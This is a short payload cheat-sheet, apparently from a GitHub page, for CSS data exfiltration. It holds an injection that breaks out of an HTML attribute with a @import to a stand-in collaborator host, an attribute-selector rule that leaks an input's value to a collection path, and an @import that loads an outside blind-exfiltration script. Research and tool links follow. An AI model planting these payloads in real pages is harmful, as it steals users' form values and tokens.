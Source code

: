
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
-  https://portswigger.net/research/blind-css-exfiltration
- https://github.com/hackvertor/blind-css-exfiltration/tree/main
- https://github.com/VoorivexTeam/CSS-Exfiltration/tree/main
- https://portswigger-labs.net/blind-css-exfiltration/start
